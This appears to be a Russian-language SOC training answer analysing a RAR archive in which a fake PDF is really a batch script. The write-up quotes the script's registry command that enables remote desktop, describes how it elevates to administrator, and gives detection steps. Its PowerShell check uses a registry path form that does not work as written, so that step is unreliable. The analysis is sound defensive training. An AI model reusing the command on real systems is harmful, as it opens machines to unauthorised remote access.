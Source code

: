 # В архиве 567000-13.rar находится файл 567000-13.pdf. Если его открыть в архиваторе WinRAR (winrar-x64-602ru.exe) происходят «странные вещи».
## 1.	Опишите, что происходит.

  1) Отключает вывод команд на экран с помощью @echo off.

  2) Создает новый файл 01.bat в папке %appdata% (папка пользователя) со следующим содержимым:

@echo off - отключает вывод команд на экран

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f - добавляет запись в реестр Windows, которая разрешает удаленные подключения к терминальному серверу.

Запускает созданный файл 01.bat с повышенными правами администратора, используя PowerShell-команду Start-Process.

## 2.	Выделите признаки, по которым понятно, что происходят подозрительные действия.

┌──(root㉿kali)-[~/mnt/INT26/Задачи для интенсива. SOC/Task 4]

└─# file 567000-13/567000-13.pdf/567000-13.pdf\ .cmd 

567000-13/567000-13.pdf/567000-13.pdf .cmd: DOS batch file, ASCII text

Файл «567000-13/567000-13.pdf/567000-13.pdf .cmd» идентифицируется как пакетный файл DOS, который представляет собой текстовый файл в кодировке ASCII с расширением «.cmd». Это указывает на то, что файл является командным сценарием Windows, а не PDF-документом.

Я не стал запускать вредоносный файл, но сделаю предположение, что он попросит разрешение администратора при его запуске, что также подозрительно.

## 3.	Укажите каким образом можно удостовериться в том, удалось ли атакующему достичь цели.

  1) Необходимо проверить, была ли добавлена запись в реестр Windows, которая разрешает удаленные подключения:

Get-ItemProperty -Path "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections"

  2) Можно попытаться установить удаленное подключение к системе, чтобы убедиться, что оно теперь возможно.

